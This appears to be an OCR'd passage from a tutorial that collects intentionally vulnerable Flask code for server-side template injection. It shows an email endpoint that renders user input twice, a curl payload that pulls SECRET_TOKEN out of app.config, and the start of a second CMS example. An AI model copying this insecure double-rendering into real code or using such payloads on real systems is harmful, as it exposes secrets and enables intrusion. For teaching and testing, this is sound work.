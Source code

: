 ```
    if not template_info:
        return jsonify({"error": "Invalid template key"}), 400

    # First pass: fill in user-specific placeholders
    rendered_subject = render_template_string(
        template_info["subject"],
        first_name=first_name
    )
    rendered_body_1stpass = render_template_string(
        template_info["body"],
        first_name=first_name
    )

    # Second pass: replace remaining placeholders, potentially injecting SSTI
    # Here, 'custom_html_footer' can be manipulated to include Jinja2 expressions
    custom_footer = request.form.get("custom_html_footer", "{{ config['EMAIL_FOOTER'] }}")
    rendered_body_2ndpass = render_template_string(
        rendered_body_1stpass,
        custom_html_footer=custom_footer,
        config=app.config
    )

    # Simulate sending email by returning the rendered content
    return jsonify({
        "subject": rendered_subject,
        "body": rendered_body_2ndpass
    })

if __name__ == "__main__":
    app.run(port=7777, debug=True)


    
Exploitation Example
An attacker can manipulate the custom_html_footer to inject malicious Jinja2 expressions:

```
curl -X POST http://localhost:7777/send_email \
     -d "template_key=welcome_email" \
     -d "first_name=Attacker" \
     -d "custom_html_footer={{ config['SECRET_TOKEN'] }}"
```

     
Expected Response:

```
{
  "subject": "Welcome, Attacker!",
  "body": "Hello Attacker,\nThank you for joining our platform!\n\nSuperSecretToken123!"
}
```



The SECRET_TOKEN is leaked via the injected Jinja2 expression.

2. CMS “Snippet” Rendering with Nested Templates
Vulnerable Implementation
A Content Management System (CMS) allows editors to store HTML snippets with placeholders. The system performs double rendering to merge these snippets into a main layout, potentially allowing SSTI if user inputs include malicious template syntax.

```
